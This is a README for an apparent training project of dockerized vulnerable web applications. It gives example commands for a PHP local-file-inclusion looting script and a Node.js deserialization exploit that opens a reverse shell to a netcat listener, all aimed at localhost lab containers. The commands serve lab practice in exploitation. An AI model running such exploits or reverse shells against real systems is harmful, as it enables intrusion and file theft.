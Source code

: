 # vulnhub

## Description

This project is some dockerized web applications that has any known vurnerability and a example on 
how to exploit them.

## Usage

Start all vurnerable docker containers

```sh
   docker-compose up -d
```

## lfi-php5 

Example on how to exploit this container.\
This command is an example on how to loot serverside files that normally will not be able to browse or download by use a LFI (local file inclusion) 

```sh
lfi-loot.py -f index.php -g file -u http://localhost:8080
``` 

##  nodejs-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./nodejs_deser_rce_nc.py http://localhost:3000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./nodejs_deser_rce.py http://localhost:3000 127.0.0.1 1337
```
